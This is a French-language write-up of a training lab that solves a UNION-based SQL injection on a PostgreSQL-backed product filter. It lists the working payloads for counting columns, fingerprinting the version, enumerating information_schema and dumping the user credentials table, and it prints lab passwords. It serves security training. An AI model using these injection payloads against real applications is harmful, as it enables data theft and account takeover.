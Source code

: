 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the
table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

On récupère le nombre de colonnes ajoutant à la fin de la requête :
```
'ORDER BY 1--
'ORDER BY 2--
'ORDER BY 3-- = internal server error
```
Nous avons donc 2 colonnes.

On vérifie la compatibilité des colonnes avec le format string :
```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```
Les 2 colonnes sont compatibles.

On cherche ensuite sous quel type et quelle version tourne la database :
```
'UNION SELECT NULL,@@version-- = internal server error
'UNION SELECT NULL,version()-- = OK
```
On apprend donc que la database visée est sous PostgreSQL 12.11 : 
`PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Avec ces informations, on peut ensuite chercher le nom des tables. La documentation de PostgreSQL fournit des noms de colonne
par défaut pour l'information schema : https://www.postgresql.org/docs/12/infoschema-columns.html
tentons d'utiliser **table_name** et **column_name** : 

```
'UNION SELECT table_name,NULL FROM information_schema.tables--
```
Quelques noms de tables interessants font surface :
- pg_user
- users_inhaeu
- pg_database
- user_mappings

On peut essayer de récupérer les colonnes de ces différentes tables :
```
'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user'--
```

On y trouve d'autres colonnes que l'on pourrait tenter de récupérer :
- username
- passwd

```
'UNION SELECT passwd,NULL FROM pg_user--
```

On aperçoit un mot de passe, mais caché. surement un piège du lab pour indiquer subtilement qu'on est pas
sur la bonne piste. Après quelques tentatives infructueuses, je suis passé sur la seconde table :

'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_inhaeu'--

Résultat concluant, on tombe sur deux colonnes :
- username_iqcpbt
- password_avjxlc

On tente de nouveau l'approche effectuée précédemment sur la table pg_user :
```
'UNION SELECT password_avjxlc,username_iqcpbt FROM users_inhaeu--
```

Il s'agit cette fois-ci des bonnes colonnes, la page affiche :
- 9drt170gxf4rfszt99yr
- wiener
- pwahxf3nu0ou3llzqz5w
- carlos
- ******************** (mot de passe)
- administrator

Une fois le mot de passe obtenu, il suffit de se log en administrateur afin de terminer le lab.
